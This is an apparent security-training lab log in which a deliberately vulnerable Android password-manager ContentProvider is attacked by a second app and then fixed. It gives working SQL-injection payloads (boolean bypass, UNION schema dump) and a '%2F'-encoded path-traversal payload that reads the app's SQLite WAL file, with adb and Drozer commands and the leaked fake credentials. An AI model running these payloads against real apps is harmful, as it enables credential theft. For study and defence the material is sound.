

# VaultSandbox — practical evidence log

> This document is a living log: it's filled in as each step is actually executed (real commands, real output, real findings). It's not the final synthesis document — that's written separately, at the close of the exercise.

## What this project is

`VaultSandbox` demonstrates in real code three mistakes that break Android's file-space isolation when a `ContentProvider` is poorly implemented:

1. SQL injection via an unparametrized `selection`.
2. Path traversal via `openFile()`.
3. Unencrypted sensitive data in the local database (SQLite/Room).

Two apps with distinct `applicationId`s:

- **`VaultKeeper`** (`dev.guillermomartin.vaultkeeper`) — a fictional password manager, exposes a `ContentProvider`.
- **`VaultRaider`** (`dev.guillermomartin.vaultraider`) — a client with no legitimate relationship to `VaultKeeper`, used to exploit each vulnerability.

Each vulnerability is demonstrated in a vulnerable stage and fixed in the next one, with its own commit per stage.

## Architecture



Android's sandbox (UID/GID + SELinux) isolates `VaultKeeper`'s data directory from `VaultRaider`'s — that already works correctly and isn't what this project questions. What this project demonstrates is that the `ContentProvider`, being an *explicit* mechanism for crossing that boundary, can break that protection if it isn't implemented well, with no fault of the sandbox itself.

## Development environment

| Tool | Version |
|---|---|
| AGP | 9.4.0 (see "Unplanned finding" below — took some work to find the right config) |
| Gradle | 9.6.0 |
| Kotlin | 2.3.21 (not 2.4.x — see note below) |
| KSP | 2.3.12 |
| Compose BOM | 2026.09.00 |
| Koin | 4.2.2 |
| Room | 2.8.5 |
| SQLCipher (`net.zetetic:sqlcipher-android`) | 4.19.1 (only wired in starting v0.7) |
| compileSdk / targetSdk / minSdk | 37 / 35 / 29 |

**Note on Kotlin:** deliberately pinned to the 2.3.x line and not the newest (2.4.x) because, when the version catalog was put together, the latest KSP release (2.3.12) still depended on `kotlin-stdlib 2.3.20` per its own POM — there was no KSP build compatible with Kotlin 2.4 yet, and Room needs KSP to generate code.

All versions were verified against Google Maven/Maven Central's `maven-metadata.xml` and the GitHub releases API (not just web search, which gave stale or outright invented numbers a couple of times during this same session).

### Unplanned finding: AGP 9.x changes how Kotlin/Compose are declared

While generating the Gradle wrapper and running the first real build, `gradle wrapper --gradle-version 9.6.0` failed:

1. When applying `org.jetbrains.kotlin.android` (the traditional Kotlin plugin): AGP 9.0+ ships "built-in Kotlin support" and **forbids** applying that plugin separately.
2. Tried downgrading to **AGP 8.13.2** (latest stable 8.x) to keep the traditional pattern — but that combination didn't compile with Gradle 9.6.0 either: Gradle 9.6.0 removed an internal API (`org.gradle.api.problems.internal.InternalProblems`) that *all* of AGP 8.x depends on (confirmed by Gradle's own documentation, `docs.gradle.org/9.6.0/.../upgrading_version_9.html#agp_8x_incompatible`, which explicitly recommends migrating to AGP 9.x).
3. Google's official guide on "built-in Kotlin" mode turned out incomplete on the Compose compiler part when searched directly — but an unrelated project of my own (`rick-and-morty-kmp`, Kotlin Multiplatform) was already building successfully with AGP 9.3.0 + Gradle 9.6.0/9.7.1 on this same machine. Checking its `androidApp/build.gradle.kts` confirmed the actual working configuration: **without** `org.jetbrains.kotlin.android`, but **with** `org.jetbrains.kotlin.plugin.compose` (the Compose compiler is a separate plugin, unaffected by the restriction — it only applies to the "pure Android" Kotlin plugin), plus a module-level `kotlin { compilerOptions { jvmTarget.set(...) } }` block replacing the old `android.kotlinOptions{}`.

**Final decision:** kept the original plan — **AGP 9.4.0 + Gradle 9.6.0** — removing `org.jetbrains.kotlin.android` from the catalog and both modules, and adding the `kotlin { compilerOptions { jvmTarget.set(JvmTarget.JVM_21) } }` block to each `build.gradle.kts`. `./gradlew wrapper` ended in `BUILD SUCCESSFUL`.

## v0.1 — Initial scaffolding

Structure created: one repo, two Gradle modules (`:vaultkeeper`, `:vaultraider`), version catalog (`gradle/libs.versions.toml`).

**`VaultKeeper`** (full Clean Architecture + MVVM + Compose + Koin):
- `domain/`: `Credential` model, `CredentialRepository` interface, use cases (`GetCredentialsUseCase`, `SaveCredentialUseCase`, `GetFaviconFileUseCase`).
- `data/local/`: `VaultDatabase`/`CredentialEntity`/`CredentialDao` (Room, still unencrypted — on purpose, see vuln #3), `CredentialRepositoryImpl`, `FaviconStore` (caches one icon per site at `files/favicons/<site>.png` — the real functional reason behind the provider's `openFile()`), `DemoDataSeeder` (seeds 3 fictional credentials on reserved domains `.test`/`.example`, RFC 2606).
- `data/provider/VaultContentProvider.kt`: exported (`exported="true"`), with `query()` and `openFile()` **deliberately not hardened yet** — this is the naive starting state:
  - `query()` concatenates `selection`/`sortOrder` straight into the SQL and ignores `selectionArgs` entirely (vuln #1, exploited in v0.2 and fixed in v0.3).
  - `openFile()` uses the last path segment of the URI as the filename without validating the resulting canonical path against the allowed favicons directory (vuln #2, exploited in v0.4 and fixed in v0.5).
- Koin starts in `VaultKeeperApp.attachBaseContext()` (not in `onCreate()`): `VaultContentProvider.onCreate()` runs before `Application.onCreate()`, so if Koin started there the provider wouldn't have the DI graph available yet.
- Own debug keystore (`keystores/vaultkeeper-debug.jks`), distinct from `VaultRaider`'s — needed so the final stage (signature-level permission, v0.8) is a real test and not an artifact of sharing Android Studio's default debug keystore.

**`VaultRaider`** (reduced layers, no real business logic):
- `client/VaultKeeperClient.kt`: direct `ContentResolver` wrapper, with its own copy of `VaultKeeper`'s authority/URIs (doesn't import code from `:vaultkeeper` — a real attacker wouldn't have the victim's source code either).
- `presentation/AttackScreen.kt` + `AttackViewModel.kt`: a simple console with a text field for `selection` and another for the favicon filename, to fire attacks against `query()`/`openFile()` without touching code between stages — the next stages (v0.2, v0.4) are the same code, with different input and a different observed result.
- Own debug keystore (`keystores/vaultraider-debug.jks`).

**Manual setup (run by the user outside this session's sandbox — several file/Bash permissions in this session block writing `*.properties` files and running `keytool`/`adb install`):**

```bash
# local.properties (sdk.dir)
echo "sdk.dir=/home/guillermo/Android/Sdk" > local.properties

# Debug keystores — the first attempt with a comma inside the CN value
# ("training only, not a real identity") broke keytool's DN parser
# ("Incorrect AVA format"); fixed by removing the inner comma.
keytool -genkeypair -v -keystore keystores/vaultkeeper-debug.jks -alias vaultkeeper \
  -storepass vaultsandbox-training-only -keypass vaultsandbox-training-only \
  -keyalg RSA -keysize 2048 -validity 10950 \
  -dname "CN=VaultKeeper Debug - training only - not a real identity, OU=VaultSandbox, O=VaultSandbox Training Lab, C=XX"

keytool -genkeypair -v -keystore keystores/vaultraider-debug.jks -alias vaultraider \
  -storepass vaultsandbox-training-only -keypass vaultsandbox-training-only \
  -keyalg RSA -keysize 2048 -validity 10950 \
  -dname "CN=VaultRaider Debug - training only - not a real identity, OU=VaultSandbox, O=VaultSandbox Training Lab, C=XX"
```

### Unplanned findings during the first real build

- **Insufficient `compileSdk`:** with `compileSdk = 35`, `./gradlew assembleDebug` failed (a hard error, not just a warning) because several dependencies (`androidx.activity:activity-compose:1.13.0`, `androidx.core:core-ktx:1.19.1`, `androidx.compose.ui:ui-android:1.12.1`, etc.) declare in their AAR metadata that they require compiling against API 36/37. Bumped `compileSdk` to **37** in both modules — without touching `targetSdk` (stays at 35, as decided with the user) or `minSdk` (29): `compileSdk` only determines which APIs are available at compile time, it doesn't change runtime behavior.
- **Two real Kotlin compile errors:**
  - `FaviconStore.kt`: one byte of the placeholder PNG (`0x9C` = 156) exceeds signed `Byte` range without an explicit `.toByte()` — a typo while transcribing the PNG bytes.
  - `CredentialListScreen.kt` / `AttackScreen.kt`: Material3's `TopAppBar` is `@ExperimentalMaterial3Api` — missing `@OptIn(ExperimentalMaterial3Api::class)` on the composables using it.
- **Deprecated Koin import:** `org.koin.androidx.viewmodel.dsl.viewModel` is deprecated in favor of `org.koin.core.module.dsl.viewModel` — fixed in both DI modules.
- **Package visibility (Android 11+, the most interesting finding):** after installing both apps, `VaultRaider` failed with `query() returned null`. `adb logcat` showed the real cause: `ActivityThread: Failed to find provider info for dev.guillermomartin.vaultkeeper.provider`. Since API 30, package-visibility rules block resolving another app's `ContentProvider` by authority unless the caller declares it in a `<queries>` block — regardless of whether there's any legitimate relationship between the apps. Added to `vaultraider/src/main/AndroidManifest.xml`:
  ```xml
  <queries>
      <provider android:authorities="dev.guillermomartin.vaultkeeper.provider" />
  </queries>
  ```
  This grants no special permission or trust — it's a platform requirement for any app (including a malicious one) to even attempt resolving another app's `content://`. A real attacker would add this exact same declaration.

### v0.1 verification (confirmed on a Pixel_4 emulator, API 37.1, 2026-10-05)

- `./gradlew assembleDebug` → `BUILD SUCCESSFUL`, both APKs installed via Android Studio.
- `VaultKeeper` opened: shows the 3 seeded credentials (`example.test`, `mail.example`, `shop.example`) with their passwords masked (bullets) in the UI.
- `VaultRaider` opened, empty `selection` field, "Query credentials" → returns all 3 full rows via `content://dev.guillermomartin.vaultkeeper.provider/credentials`:

  ```
  id=1 | site=example.test | username=demo@example.test | password=Tr0ub4dor&3-fake
  id=2 | site=mail.example | username=demo.mail@example.test | password=Hunter2-fake
  id=3 | site=shop.example | username=demo.shop@example.test | password=Cassette-Battery-Staple-fake
  ```

v0.1 closed: the full `VaultRaider → ContentResolver → VaultContentProvider → Room` circuit works end to end, with the `ContentProvider` still completely unhardened — ready as the baseline for stage v0.2 (exploiting the SQL injection).

## v0.2 — Exploiting the SQL injection (vuln #1)

Recap of the vulnerable code (unchanged since v0.1, `VaultContentProvider.query()`):

```kotlin
val sql = buildString {
    append("SELECT * FROM credentials")
    if (!selection.isNullOrBlank()) append(" WHERE $selection")
    if (!sortOrder.isNullOrBlank()) append(" ORDER BY $sortOrder")
}
dao.rawQuery(SimpleSQLiteQuery(sql))
```

`selection` is concatenated straight into the SQL string; `selectionArgs` is never read. Any caller of `ContentResolver.query()` fully controls the `WHERE` clause.

**Operational note before testing:** the app installed on the emulator still had demo data seeded before the English-translation commit (`-ficticio` suffixes instead of `-fake`). Since `DemoDataSeeder` only seeds an empty table, a plain reinstall over the existing install doesn't reseed it. Fixed with `adb shell pm clear dev.guillermomartin.vaultkeeper` followed by relaunching the app, which forces a fresh seed from current source.

### Baseline — what a legitimate client would send

The hypothetical Chrome-extension client (narrative only, not implemented in this repo) would scope its lookup to one site, e.g. `selection = "site = 'example.test'"`:

```
$ adb shell "content query --uri content://dev.guillermomartin.vaultkeeper.provider/credentials --where \"site = 'example.test'\""
Row: 0 id=1, site=example.test, username=demo@example.test, password=Tr0ub4dor&3-fake
```

Exactly one row, as intended.

### Attack 1 — boolean-based scope bypass

Run from `VaultRaider`'s "selection (WHERE)" field, confirmed on-device (Pixel_4 emulator, API 37.1):

```
selection: site = 'nope.invalid' OR '1'='1'
```

Real output shown by `VaultRaider`:

```
id=1 | site=example.test | username=demo@example.test | password=Tr0ub4dor&3-fake
id=2 | site=mail.example | username=demo.mail@example.test | password=Hunter2-fake
id=3 | site=shop.example | username=demo.shop@example.test | password=Cassette-Battery-Staple-fake
```

Despite filtering on a site that doesn't exist (`nope.invalid`), all 3 credentials come back — the injected `OR '1'='1'` makes the `WHERE` clause always true. Any app that can reach this exported provider can read every credential regardless of what the provider's author intended to scope the query to.

### Attack 2 — UNION-based schema enumeration

Same field, a different payload that doesn't even reference the `credentials` table's own data:

```
selection: 0=1 UNION SELECT 1, name, sql, 'x' FROM sqlite_master WHERE type='table'
```

Real output shown by `VaultRaider`:

```
id=1 | site=android_metadata | username=CREATE TABLE android_metadata (locale TEXT) | password=x
id=1 | site=credentials | username=CREATE TABLE `credentials` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `site` TEXT NOT NULL, `username` TEXT NOT NULL, `password` TEXT NOT NULL) | password=x
id=1 | site=room_master_table | username=CREATE TABLE room_master_table (id INTEGER PRIMARY KEY,identity_hash TEXT) | password=x
id=1 | site=sqlite_sequence | username=CREATE TABLE sqlite_sequence(name,seq) | password=x
```

The 4-column `UNION SELECT` matches `credentials`' column count, so the `ContentProvider`'s hardcoded `SELECT *` happily returns rows from `sqlite_master` instead — leaking the full schema of every table in the database, including Room's internal bookkeeping tables. This is full arbitrary-SQL injection through the same `selection` field a legitimate client would use for a simple site lookup, not just a missing filter.

Independently corroborated at the OS level (same `ContentResolver` → `ContentProvider` binder call any app or `adb shell` makes, not routed through `VaultRaider`'s own UID):

```
$ adb shell "content query --uri content://dev.guillermomartin.vaultkeeper.provider/credentials --where \"0=1 UNION SELECT 1, name, sql, 'x' FROM sqlite_master WHERE type='table'\""
Row: 0 id=1, site=android_metadata, username=CREATE TABLE android_metadata (locale TEXT), password=x
Row: 1 id=1, site=credentials, username=CREATE TABLE `credentials` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `site` TEXT NOT NULL, `username` TEXT NOT NULL, `password` TEXT NOT NULL), password=x
Row: 2 id=1, site=room_master_table, username=CREATE TABLE room_master_table (id INTEGER PRIMARY KEY,identity_hash TEXT), password=x
Row: 3 id=1, site=sqlite_sequence, username=CREATE TABLE sqlite_sequence(name,seq), password=x
```

### Independent corroboration with Drozer (ReversecLabs fork, v3.1.0)

Set up: client installed with `pipx install drozer`, `drozer-agent.apk` (release 3.1.0) installed on the emulator, Embedded Server enabled, `adb forward tcp:31415 tcp:31415` + `drozer console connect`.

```
dz> run app.package.attacksurface dev.guillermomartin.vaultkeeper
Attack Surface:
  2 activities exported
  1 broadcast receivers exported
  1 content providers exported
  0 services exported
    is debuggable

dz> run app.provider.info -a dev.guillermomartin.vaultkeeper
Package: dev.guillermomartin.vaultkeeper
  Authority: dev.guillermomartin.vaultkeeper.provider
    Read Permission: null
    Write Permission: null
    Content Provider: dev.guillermomartin.vaultkeeper.data.provider.VaultContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
```

**Unplanned finding — automated discovery misses the vulnerable path.** Both `scanner.provider.finduris -a dev.guillermomartin.vaultkeeper` (dynamic probing) and `app.provider.finduri dev.guillermomartin.vaultkeeper` (static, despite its description — "Find referenced content URIs in a package" — suggesting DEX string analysis) only returned the bare authorities declared in the manifest:

```
content://dev.guillermomartin.vaultkeeper.provider
content://dev.guillermomartin.vaultkeeper.provider/
content://dev.guillermomartin.vaultkeeper.androidx-startup
content://dev.guillermomartin.vaultkeeper.androidx-startup/
```

(the `androidx-startup` authority is injected by the `androidx.startup` library itself, not application code). Neither module tried the `/credentials` sub-path — our `UriMatcher` only recognizes `credentials` and `favicons/*`, so both bare-authority URIs hit the `else -> throw IllegalArgumentException(...)` branch and are reported as unreachable. Consequently, `scanner.provider.injection -a dev.guillermomartin.vaultkeeper` — which only attacks the URIs the previous scan found — reported:

```
Not Vulnerable:
  content://dev.guillermomartin.vaultkeeper.provider/
  content://dev.guillermomartin.vaultkeeper.provider
  content://dev.guillermomartin.vaultkeeper.androidx-startup
  content://dev.guillermomartin.vaultkeeper.androidx-startup/

Injection in Projection:
  No vulnerabilities found.
Injection in Selection:
  No vulnerabilities found.
```

This is a false negative, not evidence the injection doesn't exist — the scanner attacked the wrong URI. Neither of these drozer modules decompiles the APK for embedded `content://.../credentials` string literals; both appear to only reflect `<provider android:authorities="...">` declarations from the manifest. A real attacker relying solely on drozer's automated discovery (no source access, no manual reverse-engineering with a tool like `jadx`) would not find this endpoint — which reinforces the project's own narrative that `VaultRaider` has no legitimate relationship with `VaultKeeper` and no access to its source.

With the real path supplied manually (the same role `VaultRaider`/`adb shell content query` already played), both v0.2 attacks reproduce identically through a third, independent tool:

```
dz> run app.provider.query content://dev.guillermomartin.vaultkeeper.provider/credentials --selection "site = 'nope.invalid' OR '1'='1'"
| id | site         | username               | password                     |
| 1  | example.test | demo@example.test      | Tr0ub4dor&3-fake             |
| 2  | mail.example | demo.mail@example.test | Hunter2-fake                 |
| 3  | shop.example | demo.shop@example.test | Cassette-Battery-Staple-fake |

dz> run app.provider.query content://dev.guillermomartin.vaultkeeper.provider/credentials --selection "0=1 UNION SELECT 1, name, sql, 'x' FROM sqlite_master WHERE type='table'"
| id | site              | username                                                                                                                                               | password |
| 1  | android_metadata  | CREATE TABLE android_metadata (locale TEXT)                                                                                                            | x        |
| 1  | credentials       | CREATE TABLE `credentials` (`id` INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, `site` TEXT NOT NULL, `username` TEXT NOT NULL, `password` TEXT NOT NULL) | x        |
| 1  | room_master_table | CREATE TABLE room_master_table (id INTEGER PRIMARY KEY,identity_hash TEXT)                                                                             | x        |
| 1  | sqlite_sequence   | CREATE TABLE sqlite_sequence(name,seq)                                                                                                                 | x        |
```

### v0.2 closed

The SQL injection vulnerability (vuln #1) is proven with real, reproducible output from `VaultRaider` itself, not just ad-hoc tooling, and independently corroborated with Drozer against the historical v0.2 commit (`655cac0`, checked out read-only for this purpose, then returned to `main` without altering history). `sortOrder` is built with the exact same string-concatenation pattern and is equally injectable, even though this stage didn't exercise it through the UI (`VaultRaider` only exposes a `selection` field) — it stays in scope for the fix. v0.3 fixes this by parametrizing `selection`/`selectionArgs` through `SimpleSQLiteQuery`'s bind-argument form and validating `sortOrder`/`projection` against an explicit column allowlist.

## v0.3 — Fixing the SQL injection (vuln #1)

`VaultContentProvider.query()` no longer trusts `selection`/`sortOrder`/`projection` as raw SQL text:

```kotlin
CREDENTIALS -> {
    val columns = validateProjection(projection)
    val whereClause = validateSelection(selection, selectionArgs)
    val orderClause = validateSortOrder(sortOrder)

    val sql = buildString {
        append("SELECT ").append(columns.joinToString(", "))
        append(" FROM credentials")
        if (whereClause != null) append(" WHERE $whereClause")
        if (orderClause != null) append(" ORDER BY $orderClause")
    }
    val bindArgs: Array<Any?> = if (whereClause != null) arrayOf(selectionArgs!![0]) else emptyArray()
    dao.rawQuery(SimpleSQLiteQuery(sql, bindArgs))
}
```

- `selection` must match the single shape `<allowlisted column> = ?` (regex-checked); the value is always supplied via `selectionArgs` and bound through `SimpleSQLiteQuery`'s bind-argument array, never spliced into the SQL string. Anything else — literal values, boolean operators, `UNION`, comments — is rejected with `IllegalArgumentException` before any SQL is built.
- `sortOrder` must be an allowlisted column name optionally followed by `ASC`/`DESC`.
- `projection` must only contain the table's real column names (`id`, `site`, `username`, `password`); unknown columns are rejected instead of being ignored.

`VaultRaider` gained a `selectionArgs` input field (comma-separated) so it can exercise the fixed, parametrized call shape — the provider-side fix didn't require any change to the attacker app beyond that.

### Re-running the exact v0.2 attacks (now fail)

Rebuilt and reinstalled both apps, cleared `VaultKeeper`'s app data to reseed fresh fixtures, confirmed via `adb` (`lastUpdateTime` moved to the new install), then re-ran attack 1 verbatim via `adb shell content query`:

```
$ adb shell "content query --uri content://dev.guillermomartin.vaultkeeper.provider/credentials --where \"site = 'nope.invalid' OR '1'='1'\""
Error while accessing provider:dev.guillermomartin.vaultkeeper.provider
java.lang.IllegalArgumentException: Unsupported selection — only '<column> = ?' against an allowlisted column is accepted: site = 'nope.invalid' OR '1'='1'
```

And attack 2 (UNION schema enumeration):

```
$ adb shell "content query --uri content://dev.guillermomartin.vaultkeeper.provider/credentials --where \"0=1 UNION SELECT 1, name, sql, 'x' FROM sqlite_master WHERE type='table'\""
Error while accessing provider:dev.guillermomartin.vaultkeeper.provider
java.lang.IllegalArgumentException: Unsupported selection — only '<column> = ?' against an allowlisted column is accepted: 0=1 UNION SELECT 1, name, sql, 'x' FROM sqlite_master WHERE type='table'
```

Confirmed again directly inside `VaultRaider` (selection field set to attack 1's payload, `selectionArgs` left empty): same real output, exception surfaced through the client's own `AttackResult.Failure`:

```
Error: IllegalArgumentException: Unsupported selection — only '<column> = ?' against an allowlisted column is accepted: site = 'nope.invalid' OR '1'='1'
```

### Confirming the legitimate path still works

From `VaultRaider`, `selection = "site = ?"` with `selectionArgs = "example.test"`:

```
id=1 | site=example.test | username=demo@example.test | password=Tr0ub4dor&3-fake
```

Exactly the one matching row — the fix rejects arbitrary SQL while still serving the query shape a well-behaved client (the hypothetical Chrome extension) was always meant to use.

### v0.3 closed

Vuln #1 is fixed and verified with a real negative test (the exact v0.2 payloads now throw) and a real positive test (the intended parametrized query shape still returns correct data). `openFile()`'s path traversal (vuln #2) remains open — exploited next in v0.4.

## v0.4 — Exploiting the path traversal (vuln #2)

Recap of the vulnerable code (unchanged since v0.1, `VaultContentProvider.openFile()`):

```kotlin
FAVICON -> {
    val filename = uri.lastPathSegment
        ?: throw IllegalArgumentException("Missing filename in $uri")
    val file = File(faviconStore.faviconsDir, filename)
    ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY)
}
```

`filename` is the URI's last path segment, joined onto `faviconsDir` with no canonical-path check. The `UriMatcher` pattern `favicons/*` only requires the *raw, undecoded* path to have exactly two segments — but `Uri.getLastPathSegment()` percent-decodes that single segment before returning it. So a literal `/` in the filename (which would split it into extra segments and miss the matcher) can be smuggled in as `%2F`: the matcher still sees one segment, `openFile()` gets back a decoded string containing real `..` and `/` characters.

`VaultRaider` needed no code changes for this stage — `VaultKeeperClient.readFavicon(filename)` (added in v0.1) builds the URI by plain string concatenation, not `Uri.Builder.appendPath()`, so it passes a pre-encoded filename straight through, exactly as a real attacker-controlled input would.

### Baseline — legitimate favicon read

```
$ adb shell "content read --uri content://dev.guillermomartin.vaultkeeper.provider/favicons/example.test.png"
```

Returns the real 67-byte placeholder PNG (confirmed via `xxd`, starts with the standard `89 50 4E 47` PNG signature).

### Attack 1 — reading VaultKeeper's own SQLite database through the favicon endpoint

`VaultKeeper`'s private storage layout (confirmed via `adb shell run-as dev.guillermomartin.vaultkeeper find . -maxdepth 3`):

```
./databases/vault.db
./databases/vault.db-wal
./databases/vault.db-shm
./files/favicons/example.test.png
./files/favicons/mail.example.png
./files/favicons/shop.example.png
```

`faviconsDir` is `files/favicons`; two `..` segments climb back to the app's private root, then straight into `databases/`. Payload (`/` encoded as `%2F` so the `UriMatcher` still treats it as one `favicons/*` segment):

```
$ adb shell "content read --uri content://dev.guillermomartin.vaultkeeper.provider/favicons/..%2F..%2Fdatabases%2Fvault.db-wal" > vault_exfil.db-wal
$ file vault_exfil.db-wal
vault_exfil.db-wal: SQLite Write-Ahead Log, version 3007000
$ strings vault_exfil.db-wal | grep -E "example|fake"
%9Eshop.exampledemo.shop@example.testCassette-Battery-Staple-fake3
%9%mail.exampledemo.mail@example.testHunter2-fake2
%/-example.testdemo@example.testTr0ub4dor&3-fake
```

Full plaintext credential leak — all 3 seeded rows, in the clear — through an endpoint whose only intended purpose is serving cached favicon PNGs. This completely bypasses v0.3's fix: that fix only validates `query()`'s `selection`/`sortOrder`/`projection`, but `openFile()` is a separate vector that reads the raw, unencrypted database file directly off disk, with no SQL involved at all.

**Unplanned finding — why `vault.db` itself (not `-wal`) comes back empty:** fetching `databases/vault.db` directly (`..%2F..%2Fdatabases%2Fvault.db`) returns a valid but essentially empty SQLite file (`database pages 1`, no `credentials` table visible to `sqlite3 .tables`). Room/SQLite defaults to WAL (write-ahead log) journal mode: committed rows live in `vault.db-wal` until a checkpoint merges them back into the main file, which hadn't happened yet on this still-running app process. Real-world implication: an attacker exploiting this class of bug should also fetch the companion `-wal` (and `-shm`) files next to any SQLite database, not just the main file, or they may wrongly conclude the data isn't there.

Reproduced through `VaultRaider`'s actual UI (not just `adb`), via `adb shell input` driving the real on-device "favicon filename" field with the same payload (`..%2F..%2Fdatabases%2Fvault.db-wal`) and tapping "Read favicon file": the app reported `45352 bytes read`, matching the `-wal` file's real size exactly, confirming the same code path (`ContentResolver.openInputStream` → `VaultContentProvider.openFile()`) is exploitable from the app itself, with no `adb`/shell access required by a real attacker.

### Attack 2 — boundary check: does the traversal escape VaultKeeper's own sandbox?

Tried extending the same technique to reach `VaultRaider`'s private storage instead — a file owned by a different UID entirely (`uid=10235` for VaultKeeper vs. `uid=10236` for VaultRaider, confirmed via `adb shell run-as <pkg> id`):

```
$ adb shell "content read --uri content://dev.guillermomartin.vaultkeeper.provider/favicons/..%2F..%2F..%2Fdev.guillermomartin.vaultraider%2Ffiles%2FprofileInstalled"
Error while accessing provider:dev.guillermomartin.vaultkeeper.provider
java.io.FileNotFoundException: open failed: ENOENT (No such file or directory)
```

Fails, even though the target file genuinely exists (`adb shell run-as dev.guillermomartin.vaultraider ls files/` confirms `profileInstalled` is there) and the relative-path arithmetic is correct. The file read still happens as `VaultKeeper`'s own process/UID (`openFile()` runs inside the provider's host app, not the caller's), so the kernel's DAC permissions plus SELinux's per-app category isolation (distinct `c235,...` vs. `c236,...` contexts, also visible in the `id` output above) block the cross-UID read before the path is ever resolved. This confirms the architecture diagram's premise directly: the app-level path-traversal bug lets `VaultRaider` escape the *intended favicons-only scope* inside `VaultKeeper`'s own sandbox, but it cannot escape the OS-level UID/SELinux sandbox itself to reach a different app's files — that boundary isn't "what this project questions," and it holds.

### Independent corroboration with Drozer

Same setup as v0.2 (see above), now against the v0.4 historical commit (`ccbb797`, checked out read-only, `VaultKeeper` rebuilt/reinstalled, then returned to `main` without altering history).

`scanner.provider.traversal -a dev.guillermomartin.vaultkeeper` hits the same discovery false negative documented in v0.2 — it only probes the bare authority (which isn't a valid `favicons/*` match), so it reports:

```
Not Vulnerable:
  content://dev.guillermomartin.vaultkeeper.provider/
  content://dev.guillermomartin.vaultkeeper.provider
  content://dev.guillermomartin.vaultkeeper.androidx-startup
  content://dev.guillermomartin.vaultkeeper.androidx-startup/

Vulnerable Providers:
  No vulnerable providers found.
```

With the real `favicons/..%2F..%2Fdatabases%2Fvault.db-wal` URI supplied manually, `app.provider.read` reproduces the full plaintext leak directly in the console — the raw bytes dump includes the readable credential strings inline with the binary WAL content:

```
dz> run app.provider.read content://dev.guillermomartin.vaultkeeper.provider/favicons/..%2F..%2Fdatabases%2Fvault.db-wal
W--ctableandroid_metadata...CREATE TABLE android_metadata (locale TEXT)...
...%9Eshop.exampledemo.shop@example.testCassette-Battery-Staple-fake3%9%mail.exampledemo.mail@example.testHunt...
...#credentialsexample.testdemo@example.testTr0ub4dor&3-fake...
```

**Unplanned finding — `app.provider.download` is incompatible with this `openFile()`.** The equivalent download module (`app.provider.download content://.../favicons/..%2F..%2Fdatabases%2Fvault.db-wal <local-path>`), which should stream the same bytes to a local file for offline analysis, hung indefinitely and ultimately killed the drozer agent process on the device (`TimeoutError`, session lost, agent had to be restarted). `app.provider.read` against the exact same URI worked without issue immediately before. Whatever `download` does differently internally (likely a different `ContentResolver` open call or a read-loop assumption that doesn't hold for a plain file served through a real `ParcelFileDescriptor.open()`), it isn't required for the exploit to be proven — `read`'s output already contains the leaked plaintext — so this wasn't investigated further.

### v0.4 closed

Vuln #2 is proven with a real, reproducible plaintext credential leak (`vault.db-wal`) read through `openFile()`, confirmed via `adb`, via `VaultRaider`'s own UI, and independently via Drozer, and scoped with a real negative test showing the traversal is bounded by the OS sandbox even though the app-level check is completely absent. v0.5 fixes this by resolving the requested file's canonical path and rejecting anything that falls outside `faviconsDir`'s canonical path.

## v0.5 — Fixing the path traversal (vuln #2)

`VaultContentProvider.openFile()` still takes the filename from the URI's last path segment — including whatever `..`/`/` a `%2F`-encoded payload decodes to — but now resolves the resulting file's canonical path and checks it against `faviconsDir`'s own canonical path before opening anything:

```kotlin
FAVICON -> {
    val filename = uri.lastPathSegment
        ?: throw IllegalArgumentException("Missing filename in $uri")
    val file = resolveFaviconFile(faviconStore.faviconsDir, filename)
    ParcelFileDescriptor.open(file, ParcelFileDescriptor.MODE_READ_ONLY)
}

private fun resolveFaviconFile(faviconsDir: File, filename: String): File {
    val faviconsRoot = faviconsDir.canonicalFile
    val resolved = File(faviconsDir, filename).canonicalFile
    require(resolved == faviconsRoot || resolved.path.startsWith(faviconsRoot.path + File.separator)) {
        "Resolved path escapes the favicons directory: $filename"
    }
    return resolved
}
```

Resolving `.canonicalFile` collapses any `..` segments against the real filesystem before the comparison, so it doesn't matter whether the traversal arrived as literal `../` or as the `%2F`-encoded form that defeated the `UriMatcher` in v0.4 — both decode to the same `../../...` string by the time `openFile()` sees it, and both now fail the same canonical-path check.

### Re-running the exact v0.4 attacks (now fail)

Rebuilt and reinstalled `VaultKeeper` (`VaultRaider`'s code is unchanged since v0.4 — the fix is entirely provider-side), confirmed via `adb shell content read`:

```
$ adb shell "content read --uri content://dev.guillermomartin.vaultkeeper.provider/favicons/..%2F..%2Fdatabases%2Fvault.db-wal"
Error while accessing provider:dev.guillermomartin.vaultkeeper.provider
java.lang.IllegalArgumentException: Resolved path escapes the favicons directory: ../../databases/vault.db-wal
```

And the cross-UID attempt from attack 2:

```
$ adb shell "content read --uri content://dev.guillermomartin.vaultkeeper.provider/favicons/..%2F..%2F..%2Fdev.guillermomartin.vaultraider%2Ffiles%2FprofileInstalled"
Error while accessing provider:dev.guillermomartin.vaultkeeper.provider
java.lang.IllegalArgumentException: Resolved path escapes the favicons directory: ../../../dev.guillermomartin.vaultraider/files/profileInstalled
```

Both now rejected before any file is opened. Confirmed again directly inside `VaultRaider`'s own UI (favicon filename field set to attack 1's payload): same real output, exception surfaced through the client's own `AttackResult.Failure` — `Error: IllegalArgumentException: Resolved path escapes the favicons directory: ../../databases/vault.db-wal`.

### Confirming the legitimate path still works

```
$ adb shell "content read --uri content://dev.guillermomartin.vaultkeeper.provider/favicons/example.test.png"
```

Still returns the real 67-byte placeholder PNG unchanged — the fix rejects traversal outside `faviconsDir` while still serving the one file shape the provider was always meant to serve.

### v0.5 closed

Vuln #2 is fixed and verified with a real negative test (both v0.4 payloads now throw, including the cross-UID one that the OS sandbox already blocked on its own) and a real positive test (the intended favicon read still works). Both vulns demonstrated so far (#1 SQL injection, #2 path traversal) are now fixed; vuln #3 (unencrypted local database, readable via `adb shell run-as` on a debuggable build) remains open — exploited next in v0.6.

